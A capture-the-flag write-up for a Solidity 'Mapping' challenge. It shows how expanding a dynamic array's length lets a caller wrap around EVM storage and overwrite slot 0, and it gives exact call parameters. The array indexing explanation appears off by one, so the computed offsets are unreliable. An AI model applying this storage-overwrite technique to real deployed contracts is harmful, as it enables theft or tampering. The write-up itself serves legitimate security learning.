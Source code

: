 # Mapping

## topic

```solidity
pragma solidity ^0.4.21;

contract MappingChallenge {
    bool public isComplete;
    uint256[] map;

    function set(uint256 key, uint256 value) public {
        // Expand dynamic array as needed
        if (map.length <= key) {
            map.length = key + 1;
        }

        map[key] = value;
    }

    function get(uint256 key) public view returns (uint256) {
        return map[key];
    }
}
```

## analyses

This level is about the dynamic array storage mode in the storage layout of EVM. 

- In this level, the storage layout likes this
  - `bool public isComplete` is in slot 0
  - `uint256[] map` 's length is in slot 1. And it is member will be add in the following, for example: map[1]=>keccak256(1),map[2]=>keccak256(1) + 1, map[3]=>keccak256(1) + 2 and so on

```solidity
if (map.length <= key) {
	map.length = key + 1;
}
```

through this code,it can expand the `map`’s length to cover all `2^256 - 1` storage slots. This means that we can modify every slot in this contract.

But where is slot 0 in? we know that, we can set dynamic array slot after its first member, in this level, its first member【map[1]】 is in keccak256(1). isComplete is in slot 0, this means that it is in 0 or 2^256.  the following i will teach u how to count the isComplete's slot.

```
//keccak256(1) = 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6
//slot 0 == 0 == slot isComplete == 2^256
//keccak256(1) + offset ==  2^256
//offset == 2^256 - keccak256(1)
```

```solidity
pragma solidity ^0.8.17;
contract MyContract {
    uint256 public maxUint256 = type(uint256).max;//115792089237316195423570985008687907853269984665640564039457584007913129639935
    uint256 public isCompleteSlot = maxUint256 - 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6;
    
    function x() public pure returns(bytes32){
        bytes32 y = keccak256(abi.encode(0x0000000000000000000000000000000000000000000000000000000000000001));
        return y;
    }//0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6
}
//isCompleteSlot=35707666377435648211887908874984608119992236509074197713628505308453184860938
```

## solution 

1.expand the `map`’s length to cover all `2^256 - 1` storage slots：call `set(uint256, uint256)` with the parameters "`115792089237316195423570985008687907853269984665640564039457584007913129639934`" and "1"【type(uint256).max -1 = `115792089237316195423570985008687907853269984665640564039457584007913129639934`】

2.modify the slot 0 to 1: call `set(uint256, uint256)` with the parameters "`35707666377435648211887908874984608119992236509074197713628505308453184860938`" and "1". 

3.isComplete==true

4.u can check the storage layout:

![image-20230308181403588](10.Mapping/image-20230308181403588.png)









